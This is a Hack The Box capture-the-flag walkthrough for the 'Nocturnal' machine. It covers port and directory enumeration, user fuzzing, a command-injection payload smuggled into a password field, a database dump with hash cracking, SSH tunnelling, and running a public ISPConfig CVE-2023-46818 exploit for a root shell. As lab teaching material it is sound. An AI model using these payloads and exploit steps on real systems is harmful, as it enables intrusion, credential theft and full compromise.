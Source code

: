 ```yaml
---
name: Nocturnal
difficulty: easy
os: linux
platform: htb
date: 2025/07/02

img: https://labs.hackthebox.com/storage/avatars/f6a56cec6e9826b4ed124fb4155abc66.png
---
```


## Enumeration

### Port Scan

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We try to connect to the web service but redirects us to `http://nocturnal.htb`, so it is necessary to add the domain to our `/etc/hosts` file:
```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

We do nmap scan with service version detection and script scanning using `-sC` and `-sV` options:
```bash
nmap -p 22,80 -sCV nocturnal.htb -o targeted
```
```
ORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 202688700851eede3aa6204187962517 (RSA)
|   256 4f800533a6d42264e9ed14e312bc96f1 (ECDSA)
|_  256 d9881f68438ed42a52fcf066d4b9ee6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Welcome to Nocturnal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We look for directories and files in the web application using `gobuster`:
```bash
gobuster dir -u http://nocturnal.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nocturnal.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 302) [Size: 0] [--> login.php]
/backups              (Status: 301) [Size: 178] [--> http://nocturnal.htb/backups/]
/index.php            (Status: 200) [Size: 1524]
/uploads              (Status: 403) [Size: 162]
```

## User Exploitation

We can see that its posible to list users via URL:
```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -mc 200 -H "Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt" -fr "User not found."
```  
``` 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt
 :: Header           : Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Regexp: User not found.
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 97ms]
amanda                  [Status: 200, Size: 3319, Words: 1178, Lines: 129, Duration: 107ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 115ms]
``` 

We can access `http://nocturnal.htb/view.php?username=amanda&file=*.pdf` and see if there are any files uploades by the user. `admin` and `tobias` have not uploaded any files.

User `amanda` has uploaded a file called `privacy.odt`. If we unzip it we can find a file called `content.xml` that contains the following credentials:
```xml
amanda:arHkG7HAI68X8s1J
```

We can use these credentials to login to the web application at `http://nocturnal.htb/login.php` and access the admin panel.

We can see its displaying source code of the web app. We can see password field is vulnerable to RCE.
We try several payloads and we find that the following payload works:
```
password=%09bash%09-c%09"<payload>"%09&backup=
```

We execute the following command to get the contents of the db
```bash
password=%09bash%09-c%09"sqlite3%09../nocturnal_database/nocturnal_database.db%09.dump"&backup=
```
```
VALUES(1,'admin','d725aeba143f575736b07e045d8ceebb');
INSERT INTO users VALUES(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
INSERT INTO users VALUES(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
```

We use `https://crackstation.net/` to crack the hashes and we find the following credentials:
```
tobias:slowmotionapocalypse
```

We use these credentials to login via SSH:
```bash
ssh tobias@10.10.11.64
```

We find the user flag in the home directory of the user `tobias`:
```bash
cat /home/tobias/user.txt
```
```
user flag value
```

## Root Exploitation

We use `linpeas.sh` to check for privilege escalation vectors
We see there is a web service running in port 8080 which is not open outside the machine. We do a ssh tunnel to access the web service:
```bash
ssh -L 8080:localhost:8080 tobias@10.10.11.64
```

We can access the web service at `http://localhost:8080` and we are greeted with a ISP Config login page.
We can use the credentials we found earlier to login:
```
admin:slowmotionapocalypse
``` 

We can check which version of ISP Config is running by checking the footer of the page. Its version `3.2.10p1`, vulnerable to CVE-2023-46818.

We clone the exploit repository from `https://github.com/ajdumanhug/CVE-2023-46818.git` and run the exploit:
```bash
git clone https://github.com/ajdumanhug/CVE-2023-46818.git
cd CVE-2023-46818
python3 CVE-2023-46818.py http://localhost:8080 admin slowmotionapocalypse 
```

We get a reverse shell as root and we can find the root flag in the root directory:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
This writeup details the steps taken to exploit the Nocturnal machine on Hack The Box, from initial enumeration to privilege escalation and obtaining both user and root flags. The process involved web application exploitation, user credential cracking, and leveraging a known vulnerability in ISP Config to gain root access.
This writeup serves as a guide for those looking to understand the exploitation techniques used in this machine and can be used as a reference for similar challenges in the future.
This writeup is intended for educational purposes only and should not be used for malicious activities.
